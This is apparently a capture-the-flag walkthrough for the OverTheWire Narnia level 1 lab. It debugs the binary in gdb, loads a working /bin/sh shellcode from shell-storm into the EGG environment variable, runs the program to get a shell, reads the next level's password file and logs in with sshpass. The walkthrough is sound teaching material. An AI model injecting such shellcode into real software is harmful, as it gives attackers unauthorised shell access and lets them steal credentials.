 Try assigning a value to EGG
```bash
export EGG=AAAA
echo $EGG
```
Open the gdb editor
```bash
gdb ./narnia1
disassemble main
```
Break the program where the function calls.
```bash
break *main+75
run
x/25x $esp
```
<img src="./img/Screenshot 2024-09-13 202430.png"></img>
Lets examine 25 words of memory at eax register.
We will see 0x41414141 because we gave AAAA for EGG.
https://shell-storm.org/shellcode/files/shellcode-607.html
Here is the adjust command some changes are made.

```bash
export EGG=`perl -e 'print "\xeb\x11\x5e\x31\xc9\xb1\x21\x80".
                   "\x6c\x0e\xff\x01\x80\xe9\x01\x75".
                   "\xf6\xeb\x05\xe8\xea\xff\xff\xff".
                   "\x6b\x0c\x59\x9a\x53\x67\x69\x2e".
                   "\x71\x8a\xe2\x53\x6b\x69\x69\x30".
                   "\x63\x62\x74\x69\x30\x63\x6a\x6f".
                   "\x8a\xe4\x53\x52\x54\x8a\xe2\xce".
                   "\x81"'`

```
By adding . at the end of each line because it act concatenation in perl and execute in single string. And since we are using bash so added some backtics and assigned the code to the EGG using export.
Now run the code.
```bash
./narnia1
```
Cat the password from the shell we got.
```bash
cat /etc/narnia_pass/narnia2
```
Move to next level 2.
```bash
sshpass -p `cat narnia2` ssh narnia2@narnia.overthewire.labs.org -p 2226
```
Follow the same steps and open the file narnia2.c
